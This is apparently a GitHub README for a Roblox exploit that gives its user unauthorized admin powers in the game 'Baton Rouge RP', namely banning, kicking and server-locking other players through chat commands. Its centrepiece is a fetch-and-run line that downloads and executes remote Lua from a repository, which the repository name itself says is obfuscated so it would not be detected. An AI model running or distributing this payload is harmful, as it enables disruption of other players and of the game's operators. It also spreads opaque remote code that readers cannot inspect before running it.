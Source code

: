 # BatonRougeRPAdmin  

## Commands  
**Commands:**   
;cmds  
;ban [plr]  
;unban [plr]  
;kick [plr]  
;serverlock (rejoin to stop)  
;all [kick/ban/unban]    

**Prefix:** ;  

## Script  
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/IWillyLovePython/hadtoObfCuzItGotFound/main/main.lua"))()
```

## Description
Execute the script, once executed you can use the chat to execute the commands given above.  
This is case-sensitive meaning you have to type a user's name out in the correct capitalization.  
The command prefix is ";", if you need to to see the commands again then type ";cmds".

## Game**
**https://www.roblox.com/games/7536094070/Baton-Rouge-RP-Massive-Unban-Wave**  

## Credits
**Discord:** Dreamer#5114  
**Main Github**: [OriginalAlien](https://github.com/OriginalAlien)  
